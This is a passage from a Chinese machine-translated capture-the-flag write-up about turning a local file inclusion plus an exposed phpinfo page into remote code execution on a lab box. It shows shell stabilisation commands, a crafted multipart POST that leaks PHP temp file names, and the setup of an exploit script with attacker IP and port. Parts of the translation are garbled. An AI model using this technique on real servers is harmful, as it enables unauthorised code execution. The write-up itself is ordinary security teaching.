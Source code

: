 
我将按 Ctrl-z， ， 来获取一个功能齐全的外壳。`stty raw -echo``fg``reset`

作为 www 数据，我可以在 中看到，但我无法阅读它。`user.txt``/home/amrois`

## 壳牌作为 www-data （通过.php）

### 背景

我记得在他的[毒药视频](https://youtu.be/rs4zEwONzzk?t=601)中看到Ippsec利用了这种技术。失眠安全在2011年有一[篇非常整洁的论文](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)，关于LFI + PHPINFO = RCE。首先，PHP 必须使用 配置 。幸运的是，这里的情况就是这样：`file_uploads = on`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411070402024.png) 

这意味着任何 PHP 请求都将接受上传的文件，这些文件被存储到一个临时位置，直到 PHP 请求得到完全处理，然后它们将被丢弃。PHPINFO足以列出这些文件。我可以通过捕获Burp Proxy中的请求并将其修改为具有如下虚拟文件的POST请求来显示这一点：`/info.php`

    POST /info.php HTTP/1.1
    Host: 10.10.10.43
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=ehjpe8sp040ma068aen884obr7
    Upgrade-Insecure-Requests: 1
    Content-Length: 194
    Content-Type: multipart/form-data; boundary=---------------------------7db268605ae
    
    -----------------------------7db268605ae
    Content-Disposition: form-data; name="dummyname"; filename="test.txt" Content-Type: text/plainSecurity
    Test
    -----------------------------7db268605ae
    

我更改为 ，添加了标头和 POST 正文。`GET``POST``Content-Type`

生成的页面包括以下内容：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411073056237.png) 

这包括存储此文件的文件名！

该文件仅存在几分之一秒，但有时我可以赢得比赛并在页面消失之前访问该页面。失眠在HTTP标头中放入了大量填充，以增加处理时间，从而增加攻击者赢得比赛的机会。

### 脚本修改

失眠提供了[一个Python脚本](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)来利用这一点。我会下载它，但它需要一些编辑才能让它在这种情况下工作。

首先，我将收集一些我需要的变量：

    local_ip = "10.10.14.24"
    local_port = 443
    phpsessid = "ehjpe8sp040ma068aen884obr7"
    